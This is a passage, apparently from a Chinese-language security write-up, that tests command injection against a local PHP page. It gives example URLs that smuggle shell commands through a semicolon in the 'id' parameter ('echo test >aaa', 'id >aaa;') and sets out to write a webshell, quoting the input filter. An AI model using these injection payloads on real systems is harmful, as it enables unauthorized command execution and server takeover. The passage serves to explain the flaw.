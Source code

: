 die 打印结果看看：

![2014030416114563586_png.jpg](img/img4_u64_jpg.jpg)

打印结果可以得知

```
aaaaa, '` 
```

都能带入而且;(分号)也成功执行那么就有意思了,构造语句就是:

```
http://localhost/test.php?id=aaaa;echo test >aaa 
```

成功写入当前目录.

![2014030416123189624_png.jpg](img/img5_u57_jpg.jpg)

当然,还可以执行命令,也同样把命令执行结果写入文件得到回显.

```
http://localhost/test.php?id=aaaa;id >aaa; 
```

注意末尾多加了一个;(分号)截断了后面多余的东西.

![2014030416131320282_png.jpg](img/img6_u56_jpg.jpg)

接下就是写 shell，理清一下思路:

```
$file = ereg_replace("\\||\\:|\\.","_",$id); 

```
